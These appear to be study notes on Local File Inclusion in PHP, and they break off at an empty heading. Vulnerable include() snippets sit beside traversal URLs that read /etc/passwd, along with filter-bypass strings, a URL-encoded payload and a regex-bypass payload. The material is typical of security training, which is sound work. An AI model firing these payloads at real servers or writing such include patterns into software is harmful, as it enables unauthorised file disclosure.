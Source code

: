 ```php
include("./languages/" . $_GET['language']);
```
###### Path Traversal Attack
```
http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd
```
### Filename Prefix
```php
include("lang_" . $_GET['language']);
```
###### Path Traversal Attack
```
http://<SERVER_IP>:<PORT>/index.php?language=/../../../etc/passwd
```
### Appended Extensions
```php
include($_GET['language'] . ".php");
```
### Second-Order Attacks
`/profile/$username/avatar.png`
If we craft a malicious LFI username (e.g. `../../../etc/passwd`), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar.
# Basic Bypasses
### Non-Recursive Path Traversal Filters
```php
$language = str_replace('../', '', $_GET['language']);
```
###### Bypass Filters
`....//`
`..././`
`....\/`
`....////`
###### Path Traversal Attack
```
http://<SERVER_IP>:<PORT>/index.php?language=....//....//....//....//etc/passwd
```
## Encoding
![[lfi-config-wrapper.png]]
`double encoded` To bypass more
###### Path Traversal Attack
```
<SERVER_IP>:<PORT>/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```
## Approved Paths
```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
###### Path Traversal Attack
```
<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```
## Appended Extension